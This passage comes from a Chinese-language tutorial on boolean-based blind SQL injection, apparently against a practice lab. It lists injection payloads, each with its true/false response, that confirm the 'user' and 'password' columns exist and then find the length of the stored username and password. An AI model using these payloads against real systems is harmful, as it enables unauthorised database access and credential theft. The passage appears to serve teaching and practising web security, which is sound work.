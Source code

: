 ```sql

1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='user')=1;#
 ✅ exists
```

`users` 表中存在字段 `user`

```sql
1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='password')=1;#   
 ✅ exists
```

`users` 表中存在字段 `password`

5️⃣ 获取表中的字段值

5️⃣➡️1️⃣ `user` 的字段值

```sql
1' and length((select user from users limit 0,1))>10;#
 ❌ MISSING

1' and length((select user from users limit 0,1))>5;#
 ❌ MISSING

1' and length((select user from users limit 0,1))>3;#
 ✅ exists

1' and length((select user from users limit 0,1))=4;#
 ❌ MISSING
 
1' and length((select user from users limit 0,1))=5;#
 ✅ exists
```

先判断字段值的长度为 5，然后再用 ASCII 码方式破解

5️⃣➡️2️⃣ `password` 的字段值

```sql
1' and length(substr((select password from users limit 0,1),1))>10;#
 ✅ exists

1' and length(substr((select password from users limit 0,1),1))>20;#
 ✅ exists

1' and length(substr((select password from users limit 0,1),1))>40;#
 ❌ MISSING

1' and length(substr((select password from users limit 0,1),1))>30;#
 ✅ exists

1' and length(substr((select password from users limit 0,1),1))>35;#
 ❌ MISSING

1' and length(substr((select password from users limit 0,1),1))>33;#
 ❌ MISSING

1' and length(substr((select password from users limit 0,1),1))=32;#
 ✅ exists
```
